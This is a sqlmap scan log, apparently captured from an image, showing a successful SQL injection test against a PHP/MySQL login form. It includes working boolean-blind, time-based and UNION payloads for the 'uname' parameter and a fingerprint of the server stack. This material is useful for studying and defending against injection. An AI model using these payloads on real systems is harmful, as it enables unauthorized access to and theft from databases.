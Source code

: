 ```
[13:22:30] [INFO] testing 'MySQL >= 5.1 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (EXTRACTVALUE)'
[13:22:30] [INFO] testing 'MySQL >= 5.1 OR error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (EXTRACTVALUE)'
[13:22:31] [INFO] testing 'MySQL >= 5.1 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (UPDATEXML)'
[13:22:32] [INFO] testing 'MySQL >= 5.1 OR error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (UPDATEXML)'
[13:22:33] [INFO] testing 'MySQL >= 4.1 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (FLOOR)'
[13:22:33] [INFO] testing 'MySQL >= 4.1 OR error-based - WHERE or HAVING clause (FLOOR)'
[13:22:34] [INFO] testing 'MySQL OR error-based - WHERE or HAVING clause (FLOOR)'
[13:22:34] [INFO] testing 'MySQL >= 5.1 error-based - PROCEDURE ANALYSE (EXTRACTVALUE)'
[13:22:34] [INFO] testing 'MySQL >= 5.5 error-based - Parameter replace (BIGINT UNSIGNED)'
[13:22:34] [INFO] testing 'MySQL >= 5.5 error-based - Parameter replace (EXP)'
[13:22:34] [INFO] testing 'MySQL >= 5.6 error-based - Parameter replace (GTID_SUBSET)'
[13:22:34] [INFO] testing 'MySQL >= 5.7.8 error-based - Parameter replace (JSON_KEYS)'
[13:22:34] [INFO] testing 'MySQL >= 5.0 error-based - Parameter replace (FLOOR)'
[13:22:34] [INFO] testing 'MySQL >= 5.1 error-based - Parameter replace (UPDATEXML)'
[13:22:34] [INFO] testing 'MySQL >= 5.1 error-based - Parameter replace (EXTRACTVALUE)'
[13:22:34] [INFO] testing 'MySQL inline queries'
[13:22:35] [INFO] testing 'MySQL >= 5.0.12 stacked queries (comment)'
[13:22:35] [INFO] testing 'MySQL >= 5.0.12 stacked queries'
[13:22:36] [INFO] testing 'MySQL >= 5.0.12 stacked queries (query SLEEP - comment)'
[13:22:36] [INFO] testing 'MySQL >= 5.0.12 stacked queries (query SLEEP)'
[13:22:37] [INFO] testing 'MySQL < 5.0.12 stacked queries (heavy query - comment)'
[13:22:37] [INFO] testing 'MySQL < 5.0.12 stacked queries (heavy query)'
[13:22:38] [INFO] testing 'MySQL >= 5.0.12 AND time-based blind (query SLEEP)'
[13:22:49] [INFO] (custom) POST parameter '#1*' appears to be 'MySQL >= 5.0.12 AND time-based blind (query SLEEP)' injectable 
[13:22:49] [INFO] testing 'Generic UNION query (NULL) - 1 to 20 columns'
[13:22:49] [INFO] testing 'MySQL UNION query (NULL) - 1 to 20 columns'
[13:22:49] [INFO] automatically extending ranges for UNION query injection technique tests as there is at least one other (potential) technique found
[13:23:04] [INFO] target URL appears to be UNION injectable with 8 columns
[13:23:06] [INFO] (custom) POST parameter '#1*' is 'MySQL UNION query (NULL) - 1 to 20 columns' injectable
[13:23:06] [WARNING] in OR boolean-based injection cases, please consider usage of switch '--drop-set-cookie' if you experience any problems during data retrieval
(custom) POST parameter '#1*' is vulnerable. Do you want to keep testing the others (if any)? [y/N] n
sqlmap identified the following injection point(s) with a total of 91 HTTP(s) requests:
---
Parameter: #1* ((custom) POST)
    Type: boolean-based blind
    Title: OR boolean-based blind - WHERE or HAVING clause (MySQL comment)
    Payload: uname=-9080' OR 3819=3819#&pass=

    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: uname=' AND (SELECT 5751 FROM (SELECT(SLEEP(5)))TbTU)-- JgtD&pass=

    Type: UNION query
    Title: MySQL UNION query (NULL) - 8 columns
    Payload: uname=' UNION ALL SELECT NULL,NULL,NULL,NULL,CONCAT(0x716b787871,0x49674f717a43766442797866754b77625a4249676a535150615562525262734d6269756447477746,0x71716a7a71),NULL,NULL,NULL#&pass=
---
[13:24:08] [INFO] the back-end DBMS is MySQL
[13:24:08] [CRITICAL] unable to connect to the target URL. sqlmap is going to retry the request(s)
web server operating system: Linux Ubuntu
web application technology: PHP 5.6.40, Nginx 1.19.0
back-end DBMS: MySQL >= 5.0.12
```